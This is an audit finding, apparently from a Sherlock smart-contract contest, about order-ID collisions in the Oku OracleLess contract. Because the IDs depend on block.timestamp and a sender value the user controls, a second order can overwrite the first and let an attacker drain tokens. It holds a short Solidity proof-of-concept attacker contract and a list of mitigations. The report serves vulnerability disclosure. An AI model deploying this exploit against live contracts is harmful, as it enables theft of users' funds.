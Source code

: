 Helpful Hemp Tarantula

High

# Possible order overwrite due to order ID collision

### Summary

The algorithm for generating order IDs is flawed, as it uses `block.timestamp`, allowing duplicate IDs to be generated. This might result in orders being overwritten, in cases where the ID is being used as the key into a mapping, and consequently withdrawing more tokens than intended.

### Root Cause

[The hash algorithm](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/AutomationMaster.sol#L90) uses a combination of `sender` address and `block.timestamp`. In some cases, for example [creating an order](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38), the `sender` parameter is user controlled, allowing duplicate IDs to be generated. 

If 2 orders are created with the same order ID, the first one will be overwritten by the other in the `orders` mapping, but the ID will be duplicated in `pendingOrderIds`.

### Internal pre-conditions

1. Two orders have to be created with the same order ID

### External pre-conditions

N/A

### Attack Path

1. Attacker calls [`createOrder`](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38) twice, generating the same order ID; the first order can be created with less tokens than the second one.
2. Attacker calls other functions that interact with the orders. One of the most impactful is [`cancelOrder`](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L74). When called twice, the attacker will receive twice the amount sent in the second order, instead of the sum between the first order and the second.

### Impact

Attacker withdraws more tokens than intended, potentially draining the contract.

### PoC

The `OracleLess` contract used in the exploit is a minimal version of the real one. At the end of the `attack` function, the attacker contract will receive `100 + 100` tokens back, instead of `10 + 100`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import { OracleLess } from "./OracleLess.sol";

contract Attacker {
    OracleLess oracleLess;

    constructor(address oracleLessAddress) {
        oracleLess = OracleLess(oracleLessAddress);
    }

    function attack() external {
        uint96 order1Id = oracleLess.createOrder(10, address(this));
        uint96 order2Id = oracleLess.createOrder(100, address(this));
        require(order1Id == order2Id, "order id mismatch");

        oracleLess.cancelOrder(order1Id);
        oracleLess.cancelOrder(order1Id);
    }
}
```

### Mitigation

1. Do not rely on `block.timestamp` to generate unique order IDs.
2. Either check for duplicate IDs, or reconsider the flow of keeping track of orders.